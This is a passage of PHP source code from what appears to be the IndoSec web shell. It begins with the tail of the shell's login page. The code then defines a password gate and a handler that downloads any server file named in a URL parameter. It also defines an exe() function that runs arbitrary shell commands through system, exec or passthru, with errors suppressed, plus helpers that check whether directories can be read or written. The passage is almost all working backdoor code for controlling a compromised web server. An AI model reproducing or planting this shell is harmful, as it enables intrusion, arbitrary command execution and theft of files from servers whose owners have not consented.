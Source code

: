                     </div>
                </div><br/><p style="opacity: 0.3;"><a href="https://facebook.com/IndoSecOfficial" style="color: white;">Copyright 2019 { IndoSec }</a></p><br/>
            </div>
        </center>
    </body>
</html>
<?php
exit;
}
if(!isset($_SESSION[md5($_SERVER['HTTP_HOST'])]))
    if( empty($auth_pass) || ( isset($_POST['pass']) && (md5($_POST['pass']) == $auth_pass) ) )
        $_SESSION[md5($_SERVER['HTTP_HOST'])] = true;
    else
        login_shell();
if(isset($_GET['file']) && ($_GET['file'] != '') && ($_GET['act'] == 'download')) {
    @ob_clean();
    $file = $_GET['file'];
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($file).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($file));
    readfile($file);
    exit;
}
?>
<?php
    function w($dir,$perm) {
        if(!is_writable($dir)) {
            return "<font color=red>".$perm."</font>";
        } else {
            return "<font color=lime>".$perm."</font>";
        }
    }
    function r($dir,$perm) {
        if(!is_readable($dir)) {
            return "<font color=red>".$perm."</font>";
        } else {
            return "<font color=lime>".$perm."</font>";
        }
    }
 
    function exe($cmd) {
        if(function_exists('system')) {
            @ob_start();
            @system($cmd);
            $buff = @ob_get_contents();
            @ob_end_clean();
            return $buff;
        } elseif(function_exists('exec')) {
            @exec($cmd,$results);
            $buff = "";
            foreach($results as $result) {
                $buff .= $result;
            } return $buff;
        } elseif(function_exists('passthru')) {
            @ob_start();
            @passthru($cmd);
            $buff = @ob_get_contents();
            @ob_end_clean();
            return $buff;